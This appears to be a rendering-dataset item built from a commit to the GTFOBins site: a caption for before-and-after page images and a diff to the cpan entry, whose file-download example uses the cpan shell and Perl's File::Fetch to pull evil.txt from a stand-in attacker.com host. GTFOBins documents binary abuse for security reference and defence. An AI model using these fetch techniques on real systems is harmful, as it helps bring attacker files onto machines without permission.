

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cpan.md, in a window 1280 px wide. Shown: the whole page at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
variable fix

```diff
--- a/_gtfobins/cpan.md
+++ b/_gtfobins/cpan.md
@@ -23,10 +23,9 @@ functions:
   file-download:
     - description: Fetch a remote file via HTTP GET request and store it in PWD.
       code: |
-        export RHOST=attacker.com
-        export DFILE=evil.txt
+        export URL=http://attacker.com/evil.txt
         cpan
-        ! use File::Fetch; my $file = (File::Fetch->new(uri => "http://$ENV{RHOST}/$ENV{DFILE}"))->fetch();
+        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
 
   sudo:
     - code: |
```
